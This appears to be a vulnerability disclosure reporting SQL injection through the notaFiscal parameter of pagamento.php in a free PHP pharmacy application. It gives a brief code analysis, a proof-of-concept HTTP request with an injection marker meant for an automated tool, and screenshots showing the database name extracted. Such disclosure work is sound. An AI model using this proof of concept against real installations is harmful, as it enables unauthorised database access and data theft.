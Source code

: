 # farmacia-in-php has sql injection in pagamento.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
pagamento.php and notaFiscal parameter.

## describe
There are unrestricted sql injection attacks and injection attacks in the farmacia-in-php. The controllable parameters are as follows: notaFiscal parameter. This function will execute the notaFiscal parameter without restriction into the sql statement.

**Code analysis**    

The pagamento.php notaFiscal parameter value is obtained, concatenated into the SQL statement and executed without restrictions, and a malicious attacker can obtain sensitive server information through this SQL injection vulnerability

![image-20241127110114368](https://github.com/user-attachments/assets/7d4618ba-60cd-4e4e-9c76-601b0fa1c1e2)

## POC

```
GET /pagamento.php/cupon-fiscal.php?notaFiscal=1* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

save as  1.txt

**Result**

injection parameter: notaFiscal

![image-20241127105908402](https://github.com/user-attachments/assets/3b991acf-2867-45a2-9196-662beed97f3c)

Get databases: farmacia

![image-20241127110033174](https://github.com/user-attachments/assets/ffee6a20-999b-44f0-9aa4-c0b3f51cbea4)
